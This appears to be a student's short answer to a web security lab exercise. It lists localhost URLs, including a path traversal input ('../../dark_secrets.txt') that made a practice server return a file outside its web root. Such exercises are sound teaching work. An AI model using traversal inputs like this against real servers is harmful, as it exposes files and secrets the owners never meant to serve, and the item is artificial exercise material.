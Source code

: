 Put the url that you used to get the server to return the contents of dark_secrets.txt below:
This url generates the app.js code:
http://localhost:3000/./app.js

This url generates the dark_secrets.txt code:
http://localhost:3000/../../dark_secrets.txt
